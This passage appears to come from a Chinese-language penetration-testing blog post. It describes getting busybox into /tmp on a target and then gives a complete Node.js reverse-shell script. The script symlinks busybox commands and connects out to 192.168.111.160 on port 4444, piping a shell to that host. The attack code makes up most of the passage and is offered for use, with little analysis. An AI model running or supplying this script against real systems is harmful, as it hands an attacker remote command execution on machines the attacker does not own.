 ```
        print("Error detected")
        print(CL)
        break

```  
  
接下来有了busybox之后 我们就可以回到带sh环境下去进行攻击了 只是把/bin/busybox改为/tmp/busybox  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfrMFThwgK7dgib7Q33uTuOMRx5s6OViaE8PZRktP3q9orNo4MsY93FQYA/640?wx_fmt=png&from=appmsg "")  
  
#### nodejs渲染进行反弹shell(通过前面的方式去得到busybox)  
  
  
js文件  
  
```
const net = require('net');
const cp = require('child_process');

const busyboxPath = '/tmp/busybox';
const cmds = ['sh', 'ls', 'cat', 'wget', 'ps', 'netstat']; // 需要软链的命令列表

function setupBusyboxLinks() {
    const { execSync } = cp;
    try {
        cmds.forEach(cmd => {
            // 注意：所有命令都用 /tmp/busybox 调用
            execSync(`${busyboxPath} ln -sf busybox ${cmd}`, { cwd: '/tmp' });
        });
    } catch (e) {
        // 失败忽略
    }
}

setupBusyboxLinks();

const client = new net.Socket();

client.connect(4444, '192.168.111.160', () => {
    const sh = cp.spawn(busyboxPath, ['sh'], {
        env: Object.assign({}, process.env, {
            PATH: `/tmp:${process.env.PATH || ''}`
        })
    });

    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);

    sh.on('exit', () => {
        client.end();
    });
});

client.on('error', () => {
    client.end();
});

```  
  